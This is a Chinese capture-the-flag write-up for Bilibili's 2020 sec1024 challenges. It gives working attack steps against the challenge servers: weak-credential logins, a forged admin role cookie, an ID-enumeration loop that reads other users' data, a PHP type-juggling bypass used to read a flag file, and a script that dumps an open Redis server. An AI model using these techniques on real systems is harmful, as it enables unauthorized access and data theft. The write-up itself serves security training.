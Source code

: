+++
title = "2020-bilibili-sec1024"
date = "2020-10-25T23:09:17+08:00"
author = "AyalaKaguya"
tags = [
    "ctf",
    "bilibili",
    "sec1024",
]
categories = [
    "ctf",
]
keywords = [
    "ctf",
    "bilibili",
    "sec1024",
]
+++

> 本记录由 TePuint Club 赞助完成，原始链接：[GitHub](https://github.com/AyalaKaguya/2020-bilibili-sec1024)

> ❗ 注意
> 
> 如果你没有达到70分请不要往下查看

活动地址：[sec1024](https://security.bilibili.com/sec1024/)

## 第一题 - 页面的背后是什么？

打开DevTool审查元素，在`<input>`中找到data

## 第二题 - 真正的秘密只有特殊的设备才能看到

修改浏览器的User-Agent为 `bilibili Security Browser`，然后刷新网页，就可以看到flag了。

## 第三题 - 密码是啥？

就是弱口令，完全靠猜，用户名 `admin` ，密码 `bilibili` 。

或者直接在Console中输入：

```javascript
$.ajax({
    url: "api/ctf/3",
    type: "post",
    contentType: "application/json",
    dataType: "json",
    data: JSON.stringify({
        username: "admin",
        passwd: "bilibili",
    }),
    success: function (data) {
        console.log(data.data)
    }
})
```

## 第四题 - 对不起，权限不足～

cookies中 `role` 对应的值为user的MD5，所以将这个值改为 `Administrator` 的MD5，即 `7b7bc2512ee1fedcd76bdc68926d4f7b` ，然后刷新网页，就可以看到flag了。

## 第五题 - 别人的秘密

使用Console向后穷举，我也不知道那个uid哪里来的。

在Console中输入：

```javascript
get(100336889) //这里每个人有可能不一样，请在网页中查找
function get(uid) {
    $.ajax({
        url: "api/ctf/5?uid=" + uid,
        type: "get",
        success: function (data) {
            if (data.code == 200) {
                console.log(data.data)
            } else {
                get(uid + 1)
            }
        }
    })
}
```

## 第十题 - 结束亦是开始

你没看错，这里是第十题，但这一题的入口在第六题，也就是第六题做完是第十题的答案。

>注意：每个人的靶机不一定相同，请注意更换IP

1. 访问 `http://120.92.151.189/blog/test.php` （扫目录扫出来的）
2. 将网页中所有的内容复制粘贴到Console中，获取str1和str2
```javascript
 var str1 = "\u7a0b\u5e8f\u5458\u6700\u591a\u7684\u5730\u65b9";
 var str2 = "bilibili1024havefun";
 console.log()
```
3. 将str1进行Unicode转中文得到 `程序员最多的地方` 即 GitHub
4. 在GitHub搜索str2,即"bilibili1024havefun"
5. 在搜索结果中找到与end有关的那个 [传送门](https://github.com/interesting-1024/end/blob/main/end.php)
6. 分析PHP文件,id为不含1的数组，路径不清楚要猜
```php
 <?php

    //filename end.php

    $bilibili = "bilibili1024havefun";

    $str = intval($_GET['id']);
    $reg = preg_match('/\d/is', $_GET['id']);

    if (!is_numeric($_GET['id']) and $reg !== 1 and $str === 1) {
        $content = file_get_contents($_GET['url']);

        //文件路径猜解
        if (false) {
            echo "还差一点点啦～";
        } else {
            echo $flag;
        }
    } else {
        echo "你想要的不在这儿～";
    }
    ?>
```
7. 构造URL，使满足 `!is_numeric($_GET['id']) and $reg !== 1 and $str === 1`
8. 猜URL，访问 `http://120.92.151.189/blog/end.php?id[]=&url=./flag.txt` 得到一张图片
9. 图片另存为，并用npp或者记事本打开,就可以在文件末尾找到flag

## 第八题 - Redis

在做本题时可能会遇到redis连接不上的问题，我们使用Python脚本进行轰炸

首先安装redis库：`!pip3 install redis`

接着执行以下Python脚本：

```python
import redis

serve = '45.113.201.36' #设置服务器IP地址

print('Connecting the Server ('+serve+') ...')
while True:
    try:
        r = redis.StrictRedis(host=serve, port=6379)
        keys = r.keys()
        print('We got the flag:')
        for key in keys:
            value = r.get(key)
            print(key, value)
        break
    except:
        print('Error: Connection timed out')
        pass
```